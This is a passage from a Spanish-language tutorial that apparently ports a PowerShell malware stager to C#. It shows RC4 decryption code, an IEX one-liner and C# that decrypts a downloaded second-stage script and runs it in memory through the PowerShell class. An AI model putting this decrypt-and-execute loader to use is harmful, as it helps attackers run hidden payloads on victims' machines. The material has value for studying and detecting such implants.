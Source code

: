 ```console
			box[i] = box[j];
			box[j] = tmp;
		}
		for (a = j = i = 0; i < data.Length; i++)
		{
			a++;
			a %= 256;
			j += box[a];
			j %= 256;
			tmp = box[a];
			box[a] = box[j];
			box[j] = tmp;
			k = box[((box[a] + box[j]) % 256)];
			cipher[i] = (byte)(data[i] ^ k);
		}
		return cipher;
	}

	public static byte[] Decrypt(byte[] pwd, byte[] data)
	{
		return Encrypt(pwd, data);
	}
}
```console

La última parte es responsable de unir todo junto. Podemos dividir el Join en 2 piezas, la 1ª es la parte de descifrado RC4 que utiliza el script de minimización de $R, los datos como argumento y la combinación de IV + K como el valor de descifrado. Puede ejecutar **& $R $data ($IV + $K)** solo para que pueda ver el RC4 en acción, y luego unir todo para finalmente hacer la ejecución Invoke-Execution (IEX).

```console
//PowerShell Code
-Join[Char[]](& $R $data ($IV+$K))|IEX
 
// C# Code
// Combine the IV + Key (New random key each time)
byte[] IVK = new byte[iv.Length + K.Length];
iv.CopyTo(IVK, 0);
K.CopyTo(IVK, iv.Length);
 
// Decrypt the Message
byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
// Convert the stage2 decrypted message from bytes to ASCII
string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
```console

# Ejecución de C#

Para ejecutar código en C# podemos usar la clase PowerShell o las clases RunSpace y Pipeline, esto es porque el payload que descargamos de la etapa 2 está en PowerShell. Utilizaremos la clase PowerShell porque, por alguna razón, las clases RunSpace y Pipeline no me funcionaron. En PowerShell, lo ejecutamos usando Invoke-Execution o IEX.

```console
// Create a PowerShell Object to execute the command 
PowerShell PowerShellInstance = PowerShell.Create();
 
// Add the Script Stage 2 to the Powershell Object
PowerShellInstance.AddScript(stage2);
 
// Execute the Script!
PowerShellInstance.Invoke();
```